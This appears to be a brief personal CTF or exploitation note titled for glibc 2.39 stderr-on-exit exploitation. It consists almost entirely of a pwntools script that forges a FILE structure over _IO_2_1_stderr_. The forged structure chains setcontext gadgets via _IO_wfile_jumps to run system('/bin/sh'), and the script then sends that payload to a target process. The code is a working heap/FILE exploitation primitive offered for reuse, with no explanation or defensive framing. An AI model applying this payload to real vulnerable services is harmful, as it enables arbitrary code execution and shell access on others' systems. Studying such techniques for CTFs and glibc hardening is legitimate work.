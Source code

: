 ‍

‍

‍

## libc 2.39 stderr (exit触发)(v2)

‍

‍

- 执行 `system('/bin/sh');`​

‍

```python

gdbscript = '''
#b *_IO_flush_all_lockp
#libc2.35

b *_IO_flush_all
# libc2.39

b *_IO_switch_to_wget_mode
#continue
'''.format(**locals())
###################################################################################################
libc.address = libc_base

_stderr = libc.sym['_IO_2_1_stderr_']

fake_IO_addr = _stderr

pay = flat({
    0x00: 0,
    0x18: libc.sym['setcontext'] + 61, # CALL1
    0x68: next(libc.search(b'/bin/sh')), # CALL1
    0xa0: fake_IO_addr-0x30,
    0xa8: libc.sym['setcontext'] + 334, # CALL2 # ret 调整 stack, 然后 system
    0x88: fake_IO_addr,
    0xc0: 1,                # mode
    0xe0-0x30: fake_IO_addr,
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')

p1  = p64(libc.sym['system']) * 2 + p64(libc.sym['_IO_2_1_stderr_']) + p64(1) + p64(fake_IO_addr) + p64(0)
p1 += pay

gdb.attach(io,gdbscript)

sl(hex(_stderr-0x30)) # write_base 从这开始劫持

pause()
sl(p1)
io.interactive()
###################################################################################################
```

